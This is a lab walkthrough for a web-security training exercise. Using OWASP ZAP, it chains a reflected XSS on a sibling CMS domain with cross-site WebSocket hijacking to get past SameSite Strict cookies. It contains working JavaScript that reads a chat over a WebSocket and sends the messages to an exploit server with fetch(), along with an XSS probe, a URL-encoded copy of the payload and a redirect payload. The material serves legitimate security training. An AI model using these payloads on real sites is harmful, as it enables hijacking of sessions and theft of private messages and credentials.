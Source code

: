 # Lab: SameSite Strict bypass via sibling domain [OWASP Zed Attack Proxy]

> NOTE: Well, this was difficult to set up. I really got the taste of what people pay for when they pay for Burp Suite Pro. WebSockets didn't work with Firefox at all, __no matter what I did__, I installed and reinstalled certificates, configured proxy in a million different ways, with PAC, without PAC, manually, with FoxyProxy extension. Then decided to use Chrome, but Chrome's web driver that comes with ZAP didn't work. So excruciating hours later I figured out that there is one at `/bin/chromedriver` and I could use that one. It finally worked.

In ZAP's browser navigate to Live Chat and send a couple of messages. Under __History__ tab find `GET /chat` request with `Upgrade: websocket` header. Notice that it doesn't have any unpredictable tokens, which suggests it might be vulnerable to CSWSH if you can bypass any SameSite cookie restrictions. 

Refresh the Live Chat page and go to __WebSockets__ tab in ZAP. Notice that when you refresh the page, the browser sends a `READY` message to the server, followed by server responses with the entire chat history:

![ZAP WebSockets](zap-websockets.png "ZAP WebSockets")

> NOTE: We will use the exploit server in the lab to exfiltrate information instead of webhooks and such. 

In ZAP's browser session, go to the exploit server, make a note of the exploit server's URL. Create the following template and paste it in the "Body" section of the exploit server form:

```
<script>
    var ws = new WebSocket("wss://YOUR-LAB-ID.web-security-academy.net/chat");
    ws.onopen = function (event) {
        ws.send("READY");
    };
    ws.onmessage = function (event) {
        var message = event.data;
        fetch("https://exploit-YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit?message=" + btoa(message));
    };
</script>
```

Click "Store" and then "View exploit". From exploit server page click "Access Log" and notice a `GET` request to your exploit server's `/exploit` page with `message` query parameter and a value in `base64` encoding. Go to `cyberchef.io` and decode it:

```
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

This means you've opened a new live chat connection with the target site, however it only exfiltrated the chat history for a brand new session, which isn't particularly useful. Go to __History__ tab in ZAP and find the WebSocket handshake (`GET /chat`) request triggered by your script. There is no session cookie included with this request. A session cookie in response to this request isn't the same one that you used when you sent messages in the chat. On top of that `SameSite=Strict` is explicitly declared by the website, which prevents the browser from including the session cookie in cross-site requests.

In __History__ tab some responses to `/resources` requests include a header `Access-Control-Allow-Origin` with a URL as a value: `https://cms-YOUR-LAB-ID.web-security-academy.net`. This is a sibling domain. If you visit it, you will discover an additional login form. Use arbitrary credentials and observe that the username is reflected in the response:

```
<p>Invalid username: wiener</p>
```

Try injecting an XSS payload via the `username` parameter, for example `<script>alert(1)</script>`. Notice that `alert(1)` is called, confirming that this is a viable reflected XSS vector.

```
<p>Invalid username: <script>alert(1)</script></p>
```

In __History__ tab find `POST /login` request containing the XSS payload `<script>alert(1)</script>`, right-click it and select "Open in Requester Tab". Click the "Method" dropdown and select `GET` to convert it into an equivalent `GET` request. 

```
GET https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E&password=a
```

Click "Send" to confirm it still receives the same response. It doesn't. ZAP's Requester tab's method change functionality didn't handle URL encoding of the payload very well. URL decode it and send again:

```
GET https://cms-0afe008c03e8c1a681e793c0007a00ca.web-security-academy.net/login?username=%3Cscript%3Ealert(1)%3C/script%3E&password=a HTTP/1.1
```

This way it works and it encodes the script properly too. Copy the entire URL from the GET request and visit it to make sure you get the alert. As this sibling domain is part of the same site, you can use this XSS vector to launch the CSWSH attack without it being mitigated by SameSite restrictions.

Go back to exploit server, copy the contents of "Body" section. Go to ZAP __Tools__ > __Encode/Decode/Hash...__. Paste the payload to be encoded in the input and copy the output under __Full URL Encode__. 

```
%3C%73%63%72%69%70%74%3E%0A%20%20%20%20%76%61%72%20%77%73%20%3D%20%6E%65%77%20%57%65%62%53%6F%63%6B%65%74%28%22%77%73%73%3A%2F%2F%30%61%66%65%30%30%38%63%30%33%65%38%63%31%61%36%38%31%65%37%39%33%63%30%30%30%37%61%30%30%63%61%2E%77%65%62%2D%73%65%63%75%72%69%74%79%2D%61%63%61%64%65%6D%79%2E%6E%65%74%2F%63%68%61%74%22%29%3B%0A%20%20%20%20%77%73%2E%6F%6E%6F%70%65%6E%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%65%76%65%6E%74%29%20%7B%0A%20%20%20%20%20%20%20%20%77%73%2E%73%65%6E%64%28%22%52%45%41%44%59%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20%77%73%2E%6F%6E%6D%65%73%73%61%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%65%76%65%6E%74%29%20%7B%0A%20%20%20%20%20%20%20%20%76%61%72%20%6D%65%73%73%61%67%65%20%3D%20%65%76%65%6E%74%2E%64%61%74%61%3B%0A%20%20%20%20%20%20%20%20%66%65%74%63%68%28%22%68%74%74%70%73%3A%2F%2F%65%78%70%6C%6F%69%74%2D%30%61%31%37%30%30%62%64%30%33%37%61%63%31%39%33%38%31%37%34%39%32%36%32%30%31%36%33%30%30%37%31%2E%65%78%70%6C%6F%69%74%2D%73%65%72%76%65%72%2E%6E%65%74%2F%65%78%70%6C%6F%69%74%3F%6D%65%73%73%61%67%65%3D%22%20%2B%20%62%74%6F%61%28%6D%65%73%73%61%67%65%29%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2F%73%63%72%69%70%74%3E
```

In the exploit server's "Body" section create a new payload:

```
<script>
  document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

Make sure to include the URL encoded template from above to replace `YOUR-URL-ENCODED-CSWSH-SCRIPT`. 

Click "Store" and then "View exploit". Go to Access log and observe five `GET` requests to your exploit server with `message` query parameter values encoded in `base64`. Decode them in `cyberchef.io`:

```
{"user":"Hal Pline","content":"Sorry that&apos;s not something I am familiar with; I have a life you know."}
{"user":"You","content":"Test"}
{"user":"You","content":"Another test"}
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
{"user":"Hal Pline","content":"I didn&apos;t catch that, have you been drinking again?"}
```

Now under __History__ tab, find the `GET /chat` request that was triggered by our exploit.Notice that `session` cookie was included in it. Which means it was initiated from the sibling domain and bypassed SameSite restrictions. 

Go back to exploit server and deliver exploit to victim. Go to Access log and observe five more `GET` requests made by victim's IP with `base64` encoded `message` query parameter values, decode them again. 

```
{"user":"You","content":"Thanks, I hope this doesn&apos;t come back to bite me!"}
{"user":"Hal Pline","content":"Hello, how can I help?"}
{"user":"Hal Pline","content":"No problem carlos, it&apos;s [REDACTED]"}
{"user":"You","content":"I forgot my password"}
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

We received victim's chat on our exploit server. To solve the lab log in to the website as user `carlos` using the password.


